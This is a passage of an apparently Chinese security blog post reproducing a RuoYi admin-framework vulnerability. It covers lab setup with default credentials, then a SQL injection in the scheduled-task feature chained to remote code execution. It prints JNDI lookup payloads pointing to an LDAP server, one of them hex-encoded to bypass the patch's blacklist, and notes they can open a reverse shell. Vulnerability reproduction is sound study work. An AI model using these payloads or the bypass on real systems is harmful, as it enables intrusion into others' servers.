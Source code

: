 ![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWXJ8reQFglz7znmQhDM8vxNjmZL8ym7EYy9BI9wXJH2G8icibjzR1IwCpz56pAX4K63ZiaWoEVibDOLVw/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWXJ8reQFglz7znmQhDM8vxNu0UuWmH9xNEpPl6LIHUJgNib0NIQpcRRTNnA9rwvpx5ibZ4q2Lu2Taicg/640?wx_fmt=png&from=appmsg "")  
  
将ruoyi-admin下的application-druid.yml文件配置数据库账号密码  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWXJ8reQFglz7znmQhDM8vxNibqwZXtLNGtNYbas2IYQAQQ0xkrk4BH6aUxIWj46xrPWZfHlswAVCDg/640?wx_fmt=png&from=appmsg "")  
  
启动成功  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWXJ8reQFglz7znmQhDM8vxNW2ibb1Wt3SW8ICc5XVQkfmdic40oA0l0MPBWrMfNibgt3R9McFRj0jX0Q/640?wx_fmt=png&from=appmsg "")  
  
  
若依漏洞复现环境搭建成功  
```
adminadmin123
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWXJ8reQFglz7znmQhDM8vxN5qWwjO06ZichoTBvHDeK3huYSS3tdord15K3zZWKOibRKiabuciaKEerEQ/640?wx_fmt=png&from=appmsg "")  
## 0x05 漏洞复现  
  
系统监控下定时任务中存在SQL注入漏洞  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWXJ8reQFglz7znmQhDM8vxNuSKINZfv78zeDnstfGvDmPBzugNDBwxablB9cBUfULI29MVGSA6Uuw/640?wx_fmt=png&from=appmsg "")  
  
在补丁中，使用了黑名单和白名单的策略。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWXJ8reQFglz7znmQhDM8vxNjwrDGAs7LPeQzshyzsLQnDPJAcIC5N9Qk1Ut6lVbsDoxLEQ4TEw2cg/640?wx_fmt=png&from=appmsg "")  
  
SQL注入漏洞点  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWXJ8reQFglz7znmQhDM8vxN71b8iaCBUe9Iic3aoAcFPKoPs07xNzIia9VXktXPpCLicW0EDtkb5Y8nZg/640?wx_fmt=png&from=appmsg "")  
  
  
开始复现  
  
RCE payload  
  
JNDI  
```
javax.naming.InitialContext.lookup('ldap://127.0.0.1:1389/deserialJackson')
```  
  
payload中可以执行反弹shell、漏洞探测、命令执行功能  
  
DNSLOG  
```
javax.naming.InitialContext.lookup('ldap://dnslog')
```  
  
目标字符串不允许'ldap(s)'调用且不能存在括号，因此我们使用SQL注入加十六进制编码来进行绕过修改  
  
https://www.bejson.com/convert/ox2str/  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWXJ8reQFglz7znmQhDM8vxNXPG84mhVzfEXcbGOULWicl0QiaTGrtZBbNuzlSt8vOic8sJmjqUFHTNKg/640?wx_fmt=png&from=appmsg "")  
```
6a617661782e6e616d696e672e496e697469616c436f6e746578742e6c6f6f6b757028276c6461703a2f2f3132372e302e302e313a313338392f646573657269616c4a61636b736f6e2729
```  
  